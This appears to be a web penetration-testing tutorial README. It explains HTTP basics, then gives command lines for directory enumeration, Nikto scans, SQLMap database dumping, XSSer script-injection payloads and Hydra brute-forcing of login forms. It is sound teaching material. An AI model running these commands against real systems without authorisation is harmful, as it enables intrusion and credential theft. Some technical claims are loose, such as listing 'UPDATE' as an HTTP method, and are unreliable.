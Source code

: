 # Table of Contents

- [HTTP Protocol](#1)
  - [HTTP Headers](#1.1)
  - [HTTP Methods](#1.2)
  - [HTTP Status codes](#1.3)
  - [HTTP... S?](#1.4)
- [The WEB!](#2)
  - [Web pages](#2.1)
  - [Web apps](#2.2)
- [HTTP Method Enumeration](#3)
- [Directory Enumeration](#4)
- [Nikto Scanning](#5)
- [SQL Injection with SQLMap](#6)
- [XSS attacks with XSSer](#7)
- [Attacking HTTP Login Forms with Hydra](#8)


<a id=1></a>
# HTTP Protocol

The HTTP (HyperText Transfer Protocol) protocol is, in practical terms, what most people know as "the Internet". It's used to
host websites, web applications, device administration tools, and more. They way it works can be described as a conversation.

The client asks for something and the server sends it back. For this communication, HTTP needs a dialect, a common language. And
that common language is most known as the HTTP methods.

<a id=1.1></a>
## HTTP Headers

An HTTP header is a piece of data that contains information like the browser you're using, the web server engine, what methods you're
currently trying to use, status codes, and more.

<a id=1.2></a>
## HTTP Methods

The methods are the verbs the client -- typically -- uses to fetch or send information to a web server. Some of them are:

- GET: asks the server for something.
- HEAD: only sends and receives the HTTP headers.
- POST: sends information to the server.
- PUT: upload a file to a web server that allows file sharing. 
- UPDATE: updates an existing resource on the web server.

The latter are not all the methods that exist for HTTP. For a more comprehensive read, you can check the [RFC 9110.](https://www.rfc-editor.org/rfc/rfc9110#name-method-definitions)
And even then, the ones in the RFC are not **all** the available HTTP methods, as the protocol itself is extensible and can be
modified and more methods can be added.

<a id=1.3></a>
## HTTP Status Codes

Not always will you get what you want from a web server. Sometimes you can ask for a webpage that doesn't exist and you get a 404.
That's as status code. But more exist:

- 1xx: informational status code.
- 2xx: successful status code.
- 3xx: redirections status code.
- 4xx: client error.
- 5xx: server error.

<a id=1.4></a>
## HTTP... S?

HTTPS is an extension of HTTP that provides encrypted communications between a client and a server. It's not its own protocol as
most people think, but rather a way to send and receive HTTP information.

<a id=2></a>
# The WEB!

<a id=2.1></a>
## Web pages

A website is a static, HTML-based web resource. It's usually written in HTML and sometimes combined with PHP or Javascript.
Typically accessible through web-servers, although local versions can be ran without a server. 

<a id=2.2></a>
## Webapps

Webapps are ~~a bloated version of websites~~ software programs accessible through a browser. Examples like goPhish, MSFPro,
all come in mind. 

<a id=3></a>
# HTTP Method Enumeration

When doing a web pentest, the first thing that we want to do is reconnaissance. And the first step of that recon, is
getting to know which methods does the web site or app allow. Now, there are a few ways of doing this.

Let's see how to do it manually.

```bash
$ curl -X GET/HEAD/POST/PUT... [URL/URI]
# you can do this recursively with every method. 
```

Or you could use the script I wrote and it's on this same repo. It's quite simple and written in Bash. I won't explain it,
as it's commented very well and it's simple to read. Nmap also has a script called `http-methods`.

<a id=4></a>
# Directory Enumeration

Directory enumeration is the process of searching for existing directories accessible within a webserver. Many applications
can be used to do this task, and some can be misused to also do this task. Let's see some of them.

```bash
$ dirb http://example.com /path/to/wordlist
$ gobuster dir -u http://example.com -w /path/to/wordlist
$ ffuf -w /path/to/wordlist -u http://example.com/FUZZ
# the FUZZ keyword is a must set. that is because the program will look for that word and replace it with the
# ones contained in the wordlist. ffuf is a very versatile tool, and if speed is needed and/or allowed, i always
# go for ffuf instead or gobuster or dirb.
```

You can also use tools like Burpsuite to do directory enumeration, but I think that's kind of overkill. Also goes against
the UNIX principles, but you do you girl.

<a id=5></a>
# Nikto Scanning

Nikto is a free and open source web vulnerability scanner. It's terminal based, so therefore only kool kidz use it.

Let's see how it works.

```bash
$ nikto -h http://example.com
$ nikto -h http://example.com -Display V
# for verbosity
$ nikto -h http://example.com -Tuning [0-9abcx]
# tune the nikto scan. check the manpage
$ nikto -h http://example.com -o nikto_output -Format [csv,txt,xml,htlm]
# create an output report.
```

This is just the basic power of Nikto. Get yourself familiarized with it, read the manpage and learn more about it!

<a id=6></a>
# SQL Injection with SQLMap

SQLmap is a tool that automates SQL injection attacks. It's very good for beginners, as it gives the opportunity to
understand what the tool thinks and in some cases why it picks certain payloads. Nevertheless, this tool is bested
by the fact that it will not find complex attacks like error-based timing attacks. 

Let's try it.

```bash
$ sqlmap -u "http://example.com/endpoint.php" 
# run it without any parameters. useless.
$ sqlmap -u "http://example.com/endpoint.php" --cookie "[COOKIE]" -p [TARGET]
# pass a cookie and a target parameter
$ sqlmap -u "http://example.com/endpoint.php" --cookie "[COOKIE]" -p [TARGET] --dbs
# sqlmap will try to get the tables on the dbms
$ sqlmap -u "http://example.com/endpoint.php" --cookie "[COOKIE]" -p [TARGET] -D [DATABASE] --tables
# returns the tables from DATABASE
$ sqlmap -u "http://example.com/endpoint.php" --cookie "[COOKIE]" -p [TARGET] -D [DATABASE] -T [TABLE] --columns
# returns the columns on the TABLE found in the DATABASE
$ sqlmap -u "http://example.com/endpoint.php" --cookie "[COOKIE]" -p [TARGET] -D [DATABASE] -T [TABLE] -C [COLUMNS]
# returns the values found in COLUMN
$ sqlmap -r [REQUEST] -p [TARGET]
# use an existing request and use it to attack TARGET
```

<a id=7></a>
# XSS attacks with XSSer

XSSer is a tool that helps automate XSS attacks. Similar to SQlmap, this tool is bested by more complex attacks,
but it's still useful in some cases.

Let's try it.

```bash
$ xsser --url "http://example.com/endpoint.php" -p "[TARGET]=XSS"
# attack TARGET and put XSS wherever you want the payloads to go. similar to ffuf
$ xsser --url "http://example.com/endpoint.php" -p "[TARGET]=XSS" --fp "<script>alert(window.origin)</script>"
# use your own payload
$ xsser --url "http://example.com/endpoint.php" -p "[TARGET]=XSS" --fp "<script>alert(window.origin)</script>" --cookie "[COOKIE]"
# authenticated attack. you'll need a cookie for this.
```

<a id=8></a>
# Attacking HTTP Login Forms with Hydra

As we know, Hydra is a tool to crack passwords and hashes. It's used to attack a multitude of services, and one of
them is HTTP Basic authentication forms. Although not a service, it's capable of attacking them.

Let's see how.

```bash
$ hydra -L /path/to/usernames -P /path/to/passwords [TARGET] http-post-form "/loginform.php:username=^USERNAME^&password=^PASSWORD^:BadLoginRegex"
# this is the basic functionality. the loginform.php may be different, and the username= and password= might also be
# different. it'll depend on the target, so check the source code of the webpage or check the requests with Burpsuite.
```
